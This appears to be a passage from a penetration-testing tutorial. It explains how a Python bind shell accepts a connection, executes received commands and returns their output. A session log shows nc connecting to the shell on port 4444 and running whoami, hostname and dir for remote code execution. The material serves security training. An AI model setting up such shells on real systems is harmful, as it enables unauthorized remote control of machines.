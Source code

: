 ```python

if __name__ == '__main__':
    main()

```

Given that we will be sending this to our client, we will improve on code quality and make it more reliable. Nevertheless, first, let us analyze it.

The code consists of two functions so far: a wrapper function for executing commands on the system and one main function that contains all the logic thrown into one place. This is less than ideal. The main function sets up a socket, binds it to `0.0.0.0` (i.e., all available interfaces) and the desired port. It is then configured to allow at most four unaccepted connections before it starts refusing connections anymore - the `listen` function configures this. The socket then accepts new incoming connections. This is a so-call `blocking call`, which means the code will halt at this line of code and wait for a connection to be made. When a connection is established, the `accept` call returns two things that we store in the variables `client_socket` and `address`.

Many things happen in the while loop, so let us break it down into smaller pieces. First, these are our goals:

- receive all of the incoming bytes from the connected client (our attacker machine),

- convert the incoming bytes to a `cmd` string,

- close down the connection if `cmd` is "exit",

- otherwise execute the command locally and send back the output


Notice that we remove the last byte of the `cmd` string. This is a newline character stemming from hitting enter when typing the command.

When we run this script on our target machine, we can use `nc` on our attacker machine to connect to the bind shell and gain remote code execution:

#### Starting the Bind Shell

```cmd-session
C:\Users\Birb\Desktop\python> python bindshell.py --port 4444

```

#### Connecting to the Bind Shell

```shell
nc 10.10.10.10 4444 -nv

(UNKNOWN) [10.10.10.10] 4444 (?) open

whoami
localnest\birb

hostname
LOCALNEST

dir
Volume in drive C has no label.
 Volume Serial Number is 966B-6E6A

 Directory of C:\Users\Birb\Desktop\python

20-03-2021  21:22    <DIR>          .
20-03-2021  21:22    <DIR>          ..
20-03-2021  21:22               929 bindshell.py
               1 File(s)            929 bytes
               2 Dir(s)  518.099.636.224 bytes free
exit

```